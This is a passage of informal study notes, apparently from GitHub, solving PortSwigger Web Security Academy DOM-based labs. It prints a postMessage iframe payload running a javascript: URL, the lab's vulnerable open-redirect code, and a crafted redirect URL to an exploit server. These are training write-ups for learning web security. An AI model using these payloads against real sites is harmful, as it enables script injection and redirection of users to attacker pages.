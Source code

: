 ```htm
```
from 3 possible actions: **scroll**, **load** and **change style**. lets try load as a possible vector.
jason:
```htm
{"type":"load-channel", "data":"javascript:print()//"}
```
```htm
<iframe src="https://0a2500af039e943bc0f65f0c0025000f.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'>
```


# DUDE!


# DOM-based open redirection (1 lab)
[Matrials](https://portswigger.net/web-security/dom-based/open-redirection)

# ***1.  Lab: DOM-based open redirection*** 
[to the Lab](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)

look for keyword url in response - find in post pages (GET /post?postId=1 HTTP/1.1):
```htm
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
</div>
```

**portswigger solution:**

https://your-lab-id.web-security-academy.net/post?postId=4&url=https://your-exploit-server-id.web-security-academy.net/

**payload:**

https://0ad300bc03e07eacc1b32b24000900f0.web-security-academy.net/post?postId=1&url=https://exploit-0ab1006e03af7ee6c1892b8c011f001f.web-security-academy.net/exploit

(of course in the exploit page needs to be a badass maliciouse code)


# DOM-based cookie manipulation (1 lab)
https://portswigger.net/web-security/dom-based/cookie-manipulation


# ***1.  Lab: DOM-based cookie manipulation*** 
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation
